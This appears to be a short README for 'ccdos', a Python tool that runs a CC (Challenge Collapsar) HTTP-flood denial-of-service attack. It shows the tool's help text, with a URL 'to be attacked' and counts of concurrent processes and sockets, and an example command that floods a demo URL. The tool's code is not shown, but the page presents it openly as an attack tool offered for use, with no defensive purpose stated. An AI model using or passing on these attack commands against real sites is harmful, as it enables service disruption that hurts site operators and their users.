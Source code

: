 ## CC

(Challenge Collapsar)

If you own some interesting ideas, please share them with others.

```
ccdos [master] python ccdos.py -h
Usage: python ccdos.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     a url to be attacked
  -p PROCS, --procs=PROCS
                        number of concurrent processes
  -s SOCKS, --socks=SOCKS
                        number of consurrent sockets

```

```
ccdos [master] python ccdos.py -u "http://www.demo.com/?key=value" -p 20 -s 100
```


## References

1. https://en.wikipedia.org/wiki/Denial-of-service_attack

## License

GNU License
